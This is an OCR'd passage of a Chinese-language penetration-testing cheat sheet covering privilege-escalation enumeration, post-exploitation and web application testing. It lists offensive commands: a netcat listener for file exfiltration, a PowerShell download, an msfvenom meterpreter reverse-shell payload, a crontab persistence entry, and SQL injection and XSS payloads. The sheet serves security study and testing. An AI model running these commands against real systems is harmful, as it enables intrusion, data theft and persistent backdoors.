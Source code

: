 Windows 枚举  
：  
- winpeas.exe  
  
利用 Sudo 错误配置  
：  
- sudo -l  
  
# 5. 后期利用  
## 5.1 数据泄露  
- Netcat  
：传输文件。  
  
- nc -lvp 4444 > file.txt  
  
PowerShell  
：  
- Invoke-WebRequest -Uri http://192.168.1.1/file.txt -OutFile C:\file.txt  
  
## 5.2 横向移动  
- 使用泄露的凭证访问其他系统。  
  
- 利用网络中的信任关系。  
  
## 5.3 持久性  
- 后门  
：设置反向shell。  
  
- msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f elf > shell.elf  
  
Crontab 条目  
：  
- echo "@reboot /path/to/script.sh" >> /etc/crontab  
  
# 6. Web应用程序渗透测试  
## 6.1 SQL注入测试  
- 手动测试：  
  
- ' OR '1'='1  
  
- 自动化测试：  
  
- sqlmap -u "http://example.com?id=1"  
  
## 6.2 跨站点脚本（XSS）  
- 注入有效载荷：  
  
- <script>alert(1)</script>  
  
- 分析输出和 DOM 交互。  
  